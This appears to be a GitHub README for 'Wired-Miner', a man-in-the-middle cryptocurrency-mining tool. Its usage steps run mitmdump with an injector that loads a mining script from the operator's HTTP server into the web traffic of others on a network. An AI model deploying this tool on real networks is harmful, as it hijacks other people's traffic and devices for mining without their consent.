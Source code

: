 # Wired-Miner

Collaborative (mitm) cryptocurrency mining pool for your wireless networks

**Warning: Don't use this project explicitly. Please only ntegrate on your own networks!**

## Concept
- Creating a mining algo to run on your Lan network, and use your router to mine while you aren't using your internet

## Use
- install.sh
```
bash install.sh
```
- edit routersip.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```
